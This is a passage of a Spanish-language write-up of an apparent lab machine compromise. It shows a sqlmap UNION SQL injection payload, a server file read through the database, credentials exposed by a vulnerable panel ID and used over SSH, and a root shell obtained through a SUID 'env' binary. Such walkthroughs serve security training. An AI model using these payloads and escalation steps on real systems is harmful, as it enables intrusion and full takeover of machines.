    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-2277' UNION ALL SELECT NULL,CONCAT(0x716a766271,0x576d76424b664855446b42464e676d4a626f79684d6f554a714659547372485050624b74424e4346,0x7162766271),NULL-- -&password=admin
---
[15:20:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[15:20:43] [INFO] fingerprinting the back-end DBMS operating system
[15:20:43] [INFO] the back-end DBMS operating system is Linux
[15:20:43] [INFO] fetching file: '/var/www/html/bills/panel.php'
got a refresh intent (redirect like response common to login pages) to 'panel.php'. Do you want to apply it from now on? [Y/n] Y
do you want confirmation that the remote file '/var/www/html/bills/panel.php' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[15:20:43] [INFO] the local file '/home/kali/.local/share/sqlmap/output/172.17.0.2/files/_var_www_html_bills_panel.php' and the remote file '/var/www/html/bills/panel.php' have the same size (9849 B)
files saved to [1]:
[*] /home/kali/.local/share/sqlmap/output/172.17.0.2/files/_var_www_html_bills_panel.php (same file)

[15:20:43] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 15:20:43 /2026-05-15/
```

<figure><figcaption></figcaption></figure>

La extracción se realiza correctamente, por lo que ya disponemos del código fuente del archivo `panel.php`. Ahora vamos a revisarlo localmente:

```shell
cat /home/kali/.local/share/sqlmap/output/172.17.0.2/files/_var_www_html_bills_panel.php
```

Respuesta:

```php
...............................<RESTO DE INFO>.....................................
// Base de datos simulada con 20 IDs
// 19 IDs genéricos, 1 ID vulnerable (xyc724)
$database = [
    'xya123', 'xya456', 'xya789', 'xyb234', 'xyb567',
    'xyb890', 'xyc123', 'xyc456', 'xyd234', 'xyd567',
    'xyd890', 'xye123', 'xye456', 'xye789', 'xyf234',
    'xyf567', 'xyf890', 'xyg123', 'xyg456', 'xyc724' // ID vulnerable
];
...............................<RESTO DE INFO>.....................................
```

Aquí encontramos un detalle bastante interesante: el propio desarrollador dejó comentarios dentro del código indicando explícitamente que el identificador `xyc724` es el “ID vulnerable”. Este tipo de comentarios en producción representan una mala práctica de seguridad, ya que pueden filtrar información crítica a un atacante.

Si accedemos manualmente utilizando dicho identificador:

```
http://<IP>/bills/panel.php?id=xyc724
```

Veremos lo siguiente:

<figure><figcaption></figcaption></figure>

La aplicación expone directamente las credenciales del usuario `duque`, por lo que el siguiente paso lógico será probarlas contra el servicio SSH expuesto anteriormente.

### SSH (duque)

<figure><figcaption></figcaption></figure>

Con las credenciales obtenidas anteriormente, probamos acceso por `SSH` contra la máquina víctima:

```shell
ssh duque@<IP>
```

Metemos como contraseña `duquelaje81029557!`...

```
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.17.10+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

duque@b24d84a68031:~$ whoami
duque
```

Veremos que el acceso es válido y conseguimos una shell interactiva como el usuario `duque`.

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Una vez dentro del sistema, enumeramos los binarios con permisos `SUID` para identificar posibles vectores de escalada de privilegios:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Respuesta:

```
2119157     36 -rwsr-xr-x   1 root     root        35200 Mar  6 16:10 /usr/bin/umount
  2118911     72 -rwsr-xr-x   1 root     root        72712 Feb  6  2024 /usr/bin/chfn
  2943458     44 -rwsr-xr-x   1 root     root        43976 Jan 23 10:51 /usr/bin/env
  2119046     40 -rwsr-xr-x   1 root     root        40496 Feb  6  2024 /usr/bin/newgrp
  2119041     48 -rwsr-xr-x   1 root     root        47488 Mar  6 16:10 /usr/bin/mount
  2118917     44 -rwsr-xr-x   1 root     root        44808 Feb  6  2024 /usr/bin/chsh
  2119057     60 -rwsr-xr-x   1 root     root        59976 Feb  6  2024 /usr/bin/passwd
  2119131     56 -rwsr-xr-x   1 root     root        55680 Mar  6 16:10 /usr/bin/su
  2118983     72 -rwsr-xr-x   1 root     root        72072 Feb  6  2024 /usr/bin/gpasswd
  3598657    228 -rwsr-xr-x   1 root     root       232416 Mar  2 13:08 /usr/bin/sudo
  3677556    332 -rwsr-xr-x   1 root     root       338536 Apr 28 00:38 /usr/lib/openssh/ssh-keysign
  3677498     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Entre todos los binarios, destaca especialmente el siguiente:

```
2943458   44 -rwsr-xr-x   1 root     root   43976 Jan 23 10:51 /usr/bin/env
```

El binario `/usr/bin/env` no suele tener el bit `SUID` habilitado por defecto. Al ejecutarse con privilegios de `root`, puede utilizarse para lanzar una shell preservando el contexto privilegiado, lo que nos permite escalar directamente a `root`.

```shell
env /bin/bash -p
```

Respuesta:

```
bash-5.1# whoami
root
```

Veremos que la explotación funciona correctamente y obtenemos una shell como `root`, completando así la escalada de privilegios y comprometiendo totalmente la máquina.
